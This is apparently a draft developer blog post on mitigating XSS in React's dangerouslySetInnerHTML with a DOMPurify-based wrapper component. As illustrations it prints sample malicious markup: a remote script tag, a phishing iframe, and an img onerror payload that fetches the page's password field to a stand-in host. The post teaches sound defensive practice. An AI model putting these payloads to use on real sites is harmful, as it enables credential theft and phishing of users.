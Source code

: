 ```yaml
---
title: Mitigate XSS exploits when using React's dangerouslySetInnerHTML
description: With the great power of dangerouslySetInnerHTML, comes great responsibility
posted: "2022-08-13"
image: /assets/images/posts/lautaro-andreani-xkBaqlcqeb4-unsplash.jpg
credit:
  [
    Lautaro Andreani,
    https://unsplash.com/@lautaroandreani?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText,
  ]
status: draft
---
```


**TL: DR;** Blinding dumping content into `dangerouslySetInnerHTML` is exactly that - dangerous. Make sure you are sanitising any input you pass to dangerouslySetInnerHTML unless you have explicit control of the input.

The following component serves as a simple example of mitigating the risk of an XSS attack via dangerouslySetInnerHTML:

```jsx title="DangerousHtml.jsx"
//https://github.com/cure53/DOMPurify
import React from "react";
import DOMPurify from "dompurify";

const sanitize = (dirty) => DOMPurify.sanitize(dirty);

const DangerousHtml = ({ innerHTML, tag }) => {
  const clean = sanitize(innerHTML);

  if (typeof tag === "undefined") {
    return <div dangerouslySetInnerHTML={{ __html: clean }} />;
  }
  return <tag dangerouslySetInnerHTML={{ __html: clean }} />;
};

export default DangerousHtml;
```

By using our bespoke `DangerousHtml` component, we can dramatically reduce the risk of an XSS exploit as we're sanitising our input before it gets to the actual `dangerouslySetInnerHTML` prop

`DOMPurify` is highly configurable too, so it might be the case that you want to have multiple components like our example to handle specific use cases or allow some of the below examples explicitly.

Below are some brief examples of how the exploits could take place:

## Exploiting iFrame and Script Tags

XSS is possible as React will not strip out the script tag which points to a malicious payload.

We really shouldn't be passing iFrames in this way either. Rather, we should pass the URL and any other "safe" attributes as a props and render it ourselves in an iFrame tag to retain control of it's rendering ability's and source, or have a dedicated iFrame component.

For example, consider rhe following malicious markup that we've received from an API request. If we blindly set it via _dangerouslySetInnerHTML_, we'll give the user this output:

```jsx
// Bad markup going in
<div
  dangerouslySetInnerHTML={{
    __html: `<p>
  Hi
  <script src="https://example.com/malicious-tracking"></script>
  Fiona, here is the link to enter your bank details:
  <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
</p>`,
  }}
/>
```

```html
<!-- Bad markup rendered on the DOM -->
<div>
  <p>
    Hi
    <script src="https://example.com/malicious-tracking"></script>
    Fiona, here is the link to enter your bank details:
    <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
  </p>
</div>
```

However, using our DangerousHTML component instead, means that we have mitigated most of the risk the user may have faced:

```jsx
// Bad markup going in
<DangerousHtml
  innerHTML={`<p>
  Hi
  <script src="https://example.com/malicious-tracking"></script>
  Fiona, here is the link to enter your bank details:
  <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
</p>`}
/>
```

```html
<!-- Clean markup rendered on the DOM -->
<div>
  <p>Hi Fiona, here is the link to enter your bank details:</p>
</div>
```

Fiona may think that the website is broken or missing content for some reason - but this is still better than being phished for their bank details!

## Attribute manipulation/poisoning

Some DOM elements have special attributes that we can abuse that we should protect ourselves against.

In this example, we can run some JS on an `<image>` tag's `onerror`.

For example, given the following:

```jsx
// Bad markup going in
<div
  dangerouslySetInnerHTML={{
    __html: `
<p>
  Hola
  <img
    src='none.png'
    onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
  />
  Sharon
</p>`,
  }}
/>
```

```html
<!-- Bad markup rendered on the DOM -->
<div>
  <p>
    Hola
    <img
      src="none.png"
      onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
    />
    Sharon
  </p>
</div>
```

In this instance, our poisoned markup is stealing data from the DOM when the image request eventually fails and the user will never even know.

We can mitigate this again with our DangerousHtml component

```jsx
// Bad markup going in
<DangerousHtml
  innerHTML={`
<p>
  Hola
  <img
    src='none.png'
    onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
  />
  Sharon
</p>`}
/>
```

```html
<!-- Clean markup rendered on the DOM -->
<div>
  <p>
    Hola
    <img src="none.png" />
    Sharon
  </p>
</div>
```

Given the argument that we may genuinely want to execute some JS to show a fallback image, we should again not be trusting raw, unsanitized HTML to do this for us and would be better served either having a `fallbackImageURL` or `onError` prop that we can explicitly add to our image tag like so:

```jsx
// Usual imports
const MyImageComponent = ({ fallbackUrl, url }) => {
  // Usual component setup

  const displayFallbackImage = (evt) => {
    // If there is no fallback, do nothing
    if (!fallbackUrl) return;

    // set the url to the fallbackUrl
    evt.target.src = fallbackUrl;
  };

  return (
    <img
      src={url}
      onerror={displayFallbackImage}
      // ... any other props
    />
  );
};
```
